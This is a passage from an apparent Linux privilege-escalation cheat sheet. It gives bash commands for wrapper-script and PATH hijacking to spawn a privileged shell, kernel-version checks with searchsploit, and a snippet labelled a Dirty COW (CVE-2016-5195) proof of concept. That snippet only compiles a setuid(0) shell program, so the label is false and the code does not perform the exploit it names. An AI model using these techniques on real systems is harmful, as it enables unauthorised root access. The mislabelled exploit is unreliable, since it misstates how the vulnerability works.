 ### Binary Wrapper Exploitation
```bash
# Create wrapper script for allowed commands
cat > /tmp/malicious_script << 'EOF'
#!/bin/bash
/bin/bash -p
EOF
chmod +x /tmp/malicious_script

# If PATH manipulation is possible
export PATH=/tmp:$PATH

# Or create binary with same name as allowed command
cp /bin/bash /tmp/allowed_binary_name
```

---

## Kernel and System Exploits

### Kernel Version Checking
```bash
# Kernel version
uname -r
cat /proc/version

# Check for known kernel exploits
searchsploit linux kernel $(uname -r)

# Distribution-specific exploits
lsb_release -a
cat /etc/os-release
```

### Common Kernel Exploits
```bash
# Dirty COW (CVE-2016-5195)
# Affects Linux kernel versions 2.6.22 to 4.8.3

# DirtyCOW PoC
echo 'int main() { setuid(0); system("/bin/bash"); return 0; }' > /tmp/cow.c
gcc -o /tmp/cow /tmp/cow.c

# Check for vulnerable kernel
if [[ $(uname -r | cut -d. -f1-2) < "4.9" ]]; then
    echo "Potentially vulnerable to DirtyCOW"
fi
```

---
